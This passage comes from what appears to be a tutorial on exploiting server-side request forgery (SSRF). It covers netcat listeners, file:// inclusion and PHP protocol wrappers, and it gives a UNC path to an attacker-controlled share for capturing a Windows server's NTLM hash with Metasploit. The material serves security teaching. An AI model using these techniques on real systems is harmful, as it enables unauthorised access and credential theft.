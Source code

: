 

Since we are using a plain text connection netcat, we just see the attempt to establish SSL to our listener.

![](./assets/9.png)



The **file://** scheme is also accepted resulting in file inclusion.

![](./assets/10.png)

You can always test more protocol handlers. Sometimes issuing a request will be available only with a few of them. [Supported Protocols and Wrappers](https://www.php.net/manual/en/wrappers.php)



#### Attacking SSRF on Windows

If you suspect the requesting server to be Windows based, you can also try to access a [UNC](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/62e862f4-2a51-452e-8eeb-dc4ff5ee33cc) path in the following format: 

```cmd
\\attackerdomain\sharename
```

If the server tries to authenticate to a fake share, you might be able to steal its NTLM password hash. The hash can be subject to further offline cracking. SMB authentication attempts can be captured, e.g., using the metasploit module **[auxiliary/server/capture/smb](https://www.rapid7.com/db/modules/auxiliary/server/capture/smb/)**



#### Other SSRF Scenarios
